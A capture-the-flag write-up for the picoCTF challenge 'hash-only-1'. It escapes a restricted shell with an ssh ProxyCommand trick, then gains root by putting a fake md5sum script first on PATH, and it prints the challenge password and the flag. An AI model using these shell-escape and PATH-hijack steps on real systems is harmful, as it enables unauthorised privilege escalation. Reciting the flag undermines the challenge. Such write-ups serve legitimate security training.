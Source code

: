 # **picoCTF Write-Up: hash-only-1**  
**Challenge Author:** Junias Bonou  

---

## **Challenge Description**  
In this challenge, we are given access to a remote machine via SSH and a binary named `flaghasher`, which has sufficient privileges to read the content of the flag file located at `/root/flag.txt`. However, instead of giving us the flag directly, it only returns the **MD5 hash** of the flag’s content.  
Since reversing the MD5 hash to retrieve the original flag content is computationally infeasible, we need to find a way to exploit the system and directly access the flag.

---

### **Access Credentials:**  
We are provided with the following credentials to access the remote machine:  
- **SSH Command:**  
  ```bash  
  ssh ctf-player@shape-facility.picoctf.net -p 55082  
  ```
- **Password:**  
  ```bash  
  83dcefb7  
  ```
  
## **Step 1: Initial Analysis**  

### **Logging in to the System**  
After logging in using the provided SSH credentials, we are placed in a restricted shell with limited functionality.  
Many essential commands like `mkdir`, `nano`, and `sudo` are disabled, making it difficult to explore or exploit the system.  

### **Running the Binary**  
Let’s run the `flaghasher` binary to see what it does:  

```bash  
./flaghasher  
```
- **Output:**  
  ```bash  
  Computing the MD5 hash of /root/flag.txt....  
  4ad1331a4a8351cac43c8bea5fb5b27b  /root/flag.txt  
  ```
The binary only returns the MD5 hash of the flag, but we want to retrieve the actual content of /root/flag.txt.
Since reversing the MD5 hash is not a feasible option, we need to find another way to exploit the system.

## **Step 2: Bypassing the Restricted Shell**  

To bypass the restricted shell, we searched online for SSH privilege escalation techniques and found a useful resource: the GTFOBins GitHub page [GTFOBins SSH Exploit](https://gtfobins.github.io/gtfobins/ssh/), which lists common privilege escalation techniques.  
One technique allows us to spawn an interactive shell using SSH’s `ProxyCommand` option.  

### **Command to Bypass the Restricted Shell:**  
```bash  
ssh -o ProxyCommand=';sh 0<&2 1>&2' x  
```
This command gives us a less restricted shell with access to commands like mkdir, echo, and export.

## **Step 3: Analyzing the Binary**  

After gaining a better shell, we use the `strings` command to inspect the `flaghasher` binary and check for useful information:  

```bash  
strings ./flaghasher  
```
- **Relevant Output:**  
  ```bash  
   /bin/bash -c 'md5sum /root/flag.txt'  
  ```
VOLA! 🎉 We can see this vulnerabilities here!
### **Vulnerability Identified:**  
The binary uses the `system()` function to execute the `md5sum` command **without specifying its absolute path** (like `/usr/bin/md5sum`).  
This makes the binary potentially vulnerable to **environment variable hijacking**, where we can manipulate the `PATH` environment variable to force the binary to execute a **malicious version of `md5sum`** that we control.  

## **Step 4: Exploiting the Binary**  

We will exploit the binary using the following steps:  

### **1. Create a Custom Directory:**  
```bash  
mkdir /tmp/exploit  
```

### **2. Create a Malicious Script Named md5sum:**  
This script will spawn a root shell when executed.
```bash  
echo "/bin/sh" > /tmp/exploit/md5sum    
```

### **3. Make the Script Executable:**  
```bash  
chmod +x /tmp/exploit/md5sum     
```

### **4. Manipulate the PATH Environment Variable:**  
We add /tmp/exploit to the beginning of the PATH environment variable so that our malicious md5sum script is executed instead of the real md5sum
```bash  
export PATH="/tmp/exploit:$PATH"     
```

### **5. Run the Vulnerable Binary:**  
```bash  
./flaghasher       
```

## **Step 5: Retrieving the Flag**  

Now that we have **root access**, we can read the content of the flag file:  

```bash  
cat /root/flag.txt  
```

### **Flag:**  
picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_54094e3e} 🎉

---

## **Note:**  
This same method works for the **hash-only-2** challenge as well, due to the similar vulnerability in that binary.  

---

## **Conclusion**  
In this challenge, we exploited a **path hijacking vulnerability** by manipulating the `PATH` environment variable and creating a **malicious version of `md5sum`**.  
This allowed us to bypass the intended restriction, spawn a **root shell**, and successfully retrieve the flag.  
